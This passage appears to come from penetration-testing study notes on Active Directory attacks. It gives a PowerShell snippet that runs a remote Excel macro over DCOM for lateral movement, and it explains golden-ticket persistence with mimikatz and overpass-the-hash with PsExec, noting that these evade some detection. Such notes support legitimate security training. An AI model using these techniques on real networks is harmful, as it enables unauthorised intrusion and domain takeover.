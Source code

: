 Specifically, we will leverage the Excel.Application DCOM object.

```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "192.168.1.110"))
$LocalPath = "C:\Users\jeff_admin.corp\myexcel.xls"
$RemotePath = "\\192.168.1.110\c$\myexcel.xls"
[System.IO.File]::Copy($LocalPath, $RemotePath, $True)
$Path = "\\192.168.1.110\c$\Windows\sysWOW64\config\systemprofile\Desktop"
$temp = [system.io.directory]::createDirectory($Path)
$Workbook = $com.Workbooks.Open("C:\myexcel.xls")
$com.Run("mymacro")
```

While the attack requires access to both TCP 135 for DCOM and TCP 445 for SMB, this is a relatively new vector for lateral movement and may avoid some detection systems such as Network Intrusion Detection or host-based antivirus.

---

>[!important]
>There are two other well-known lateral movement techniques worth mentioning: [abusing Windows Management Instrumentation](https://www.blackhat.com/docs/us-15/materials/us-15-Graeber-Abusing-Windows-Management-Instrumentation-WMI-To-Build-A-Persistent%20Asynchronous-And-Fileless-Backdoor-wp.pdf) and a technique known as [PowerShell Remoting](https://docs.microsoft.com/en-gb/windows/win32/winrm/portal?redirectedfrom=MSDN). While we will not go into details of these methods here, they have their own advantages and drawbacks as well as multiple implementations in both PowerShell and Python.

---

# Active Directory Persistence

Once we have gained access and achieved the primary goals of the engagement, our next goal is to obtain persistence, ensuring that we do not lose our access to the compromised machines.

## Golden Ticket

Going back to the explanation of Kerberos authentication, we recall that when a user submits a request for a TGT, the KDC encrypts the TGT with a secret key known only to the KDCs in the domain.
This secret key is actually the password hash of a domain user account called [krbtgt](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/dn745899(v=ws.11)#Sec_KRBTGT).

If we are able to get our hands on the krbtgt password hash, we could create our own self-made custom TGTs, or **golden tickets**. For example, we could create a TGT stating that a non-privileged user is actually a member of the Domain Admins group, and the domain controller will trust it since it is correctly encrypted.

In order to craft our own Golden Ticket [^4], lets use [mimikatz](../Tools/mimikatz.md) again.

[^4]: [Craft a Golden Ticket](../Tools/mimikatz.md#Craft%20a%20Golden%20Ticket)

Note that by *creating our own TGT* and then *using PsExec*, **we are performing the overpass the hash attack** by leveraging Kerberos authentication. **If we were to connect using** PsExec to **the IP address** of the domain controller instead of the hostname, we would instead force the use of NTLM authentication and **access would still be blocked**.


[^1]: https://github.com/nidem/kerberoast
[^2]: [Overpass the Hash (NTLM —> Kerberos)](../Tools/mimikatz.md#Overpass%20the%20Hash%20(NTLM%20—>%20Kerberos))
[^3]: [Craft a Silver Ticket](../Tools/mimikatz.md#Craft%20a%20Silver%20Ticket)
[^5]: [User Replication Updates](../Tools/mimikatz.md#User%20Replication%20Updates)